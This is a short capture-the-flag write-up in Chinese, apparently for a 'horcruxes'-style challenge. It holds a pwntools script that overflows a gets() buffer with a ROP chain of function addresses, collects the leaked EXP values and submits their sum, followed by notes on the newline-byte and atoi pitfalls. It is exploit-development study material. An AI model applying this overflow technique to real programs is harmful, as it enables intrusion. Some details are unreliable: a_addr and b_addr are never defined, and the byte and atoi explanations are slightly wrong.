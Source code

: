 ```python
c_addr=0x0809FE89
d_addr=0x0809FEA8
e_addr=0x0809FEC7
f_addr=0x0809FEE6
g_addr=0x0809FF05
call_ropme_addr=0x0809FFFC

payload='a'*(0x74+0x4)+p32(a_addr)+p32(b_addr)+p32(c_addr)+p32(d_addr)+p32(e_addr)+p32(f_addr)+p32(g_addr)+p32(call_ropme_addr)
#当函数A()执行结束之后，执行return指令的地址应就是后4个bytes，所以直接将地址罗列在padding数据之后，函数会一个一个的进行跳转

io.sendlineafter("How many EXP did you earned? :",payload)
exp=0
io.recvline()
for i in range(7):
    re = io.recvline()
    u = int(re.strip('\n').split('+')[1][:-1])
    print u
    exp += u
print "Exp: "+str(exp)
io.sendlineafter("Select Menu:","1")
io.sendlineafter("How many EXP did you earned? :",str(exp))
io.interactive()
```

一个坑点是：

ropme的地址是0x080A0009 有个0xA0 相当于换行符 所以会被gets截断，所以绕一步用main里call ropme的地址做替换

另一个坑点是：

atoi函数将int转化为字符串，如果数字超过int范围转化失败返回-1，所以要多试几遍才能出flag.....